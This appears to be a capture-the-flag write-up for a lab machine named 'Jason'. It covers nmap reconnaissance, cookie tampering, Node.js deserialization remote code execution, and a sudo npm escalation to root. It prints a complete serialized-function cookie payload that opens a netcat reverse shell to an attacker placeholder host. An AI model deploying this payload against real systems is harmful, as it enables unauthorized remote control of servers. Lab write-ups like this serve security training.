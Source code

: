 
# Jason

We'll start with our usual nmap scan:

```bash
$ sudo nmap 10.10.20.78 -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55 -sT
```

Select running services with

```bash
$ cat nmap-scan | grep -e '[0-9]\+/tcp[[:space:]].*' -o
```

[x] 22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)

[x] 80/tcp open  http    syn-ack

Ok, lets visit the website and submit a random email. Fire up BurpSuite and watch 
closely to the responses. It seems like we're receiving a base64-encoded cookie with our 
submitted email in it. Lets tamper with it a bit: try to insert "admin" as value,
insert in invalid email or just supply an invalid cookie.

The idea to tamper with a cookie was a good one. I remembered from a previous CTF 
that a bug with cookie deserialization existed in Node platform. You can look it up
[here](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)

Setup a netcat listener and then try base64 encoding the following payload:

```
{"email":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKER_IP $ATTACKER_PORT >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

And sending it as a cookie.

After successfully catching a reverse shell, you'll find the ***user*** flag at
/home/dylan

---

## *rooting the machine*

Lets find out what we can run with sudo:

```bash
$ sudo -l
```

```
User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

A quick search on [GTFOBins](https://gtfobins.github.io/gtfobins/npm/#sudo) gives us an
easy way to escalate to root.
